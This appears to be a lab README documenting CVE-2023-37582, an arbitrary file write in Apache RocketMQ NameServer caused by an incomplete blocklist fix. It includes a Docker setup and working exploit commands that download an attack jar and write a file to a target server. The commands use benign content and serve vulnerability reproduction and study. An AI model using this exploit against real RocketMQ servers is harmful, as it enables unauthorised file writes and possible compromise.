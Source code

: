 # Apache RocketMQ NameServer Arbitrary File Write Vulnerability (CVE-2023-37582)

[中文版本(Chinese version)](README.zh-cn.md)

Apache RocketMQ is a distributed messaging and streaming platform with low latency, high performance and reliability, trillion-level capacity and flexible scalability.

In RocketMQ versions 5.1.1 and below, there exists an arbitrary file write vulnerability in the NameServer component. The vulnerability exists in the configuration update functionality of RocketMQ's NameServer component. By sending an `UPDATE_NAMESRV_CONFIG` command to the NameServer, an attacker can modify the `configStorePath` configuration item and its content, leading to arbitrary file write.

This vulnerability arises from an incomplete fix for [CVE-2023-33246](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-33246). In addressing CVE-2023-33246, the official team established a blocklist of configuration items that cannot be modified. However, the patch mistakenly designated the blocklist as `configStorePathName`, when it should have been `configStorePath`, leading to this outcome.

References:

- <https://github.com/apache/rocketmq/pull/6843>
- <https://drun1baby.top/2023/11/21/CVE-2023-37582-Apache-RocketMQ-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>
- <https://github.com/Malayke/CVE-2023-37582_EXPLOIT>

## Vulnerable Environment

Execute the following command to start a RocketMQ NameServer 5.1.0:

```shell
docker compose up -d
```

After the environment is started, the RocketMQ NameServer will listen on port 9876.

## Exploit

Use this simple [exploit project](https://github.com/vulhub/rocketmq-attack) to reproduce the vulnerability and write arbitrary file.

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.1/rocketmq-attack-1.1-SNAPSHOT.jar
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target your-ip:9876 --path "/tmp/success" --content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```

After execution, you can verify that the file has been written successfully:

```shell
cat /tmp/success
```

The content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" should be present in the file.

！[](1.png)
